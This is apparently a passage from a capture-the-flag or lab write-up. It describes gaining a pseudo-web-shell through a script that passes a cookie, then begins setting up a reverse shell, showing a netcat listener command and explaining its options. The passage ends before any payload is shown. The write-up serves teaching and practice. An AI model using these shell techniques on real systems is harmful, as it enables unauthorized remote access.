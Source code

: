 ```python

        run_shell(cookie)
```

Running this program we can get a interactive psuedo-web-shell. 

![psuedo-shell](images/psuedo-shell.png)

However, this shell has some limitations. Namely we can't `cd` and other stuff
so lets setup a reverse web-shell. 

## Setting up Reverse-Shell
Since firewalls are more likely to filter inbound traffic than outbound traffic, it's a more likely that a reverse shell will work. 

Our host machine will act as the server and listen for a connection on a port. 
```bash
sudo nc -nvlp 5555                                               
Listening on [0.0.0.0] (family 2, port 5555)
Listening on 0.0.0.0 5555
```

-n option says 'Do not do any DNS or service lookups on any specified addresses, hostnames or ports'. Which can speed up execution time.

-v is for a verbose output

-l Specifies nc to listen for an incoming connection. 

-p Specifies the source port nc should use. 
